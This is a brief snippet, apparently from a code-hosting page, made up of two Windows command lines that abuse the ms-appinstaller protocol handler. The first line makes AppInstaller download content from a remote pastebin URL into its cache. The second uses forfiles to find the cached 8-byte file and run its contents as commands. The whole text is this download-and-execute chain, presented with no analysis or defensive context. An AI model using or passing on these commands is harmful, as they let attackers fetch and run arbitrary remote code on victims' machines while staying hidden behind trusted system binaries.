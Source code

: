 `start ms-appinstaller://?source=<url> && timeout 1 && taskkill /F /IM AppInstaller.exe > NUL`

> start ms-appinstaller://?source=`https://pastebin.com/raw/tdyShwLw` && timeout 1 && taskkill /F /IM AppInstaller.exe > NUL

`forfiles /P "C:\Users\v\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache" /S /M * /C " cmd /c if @fsize==8 FOR /F \"tokens=*\" %g IN ('type @path') do (%g );" >NUL`
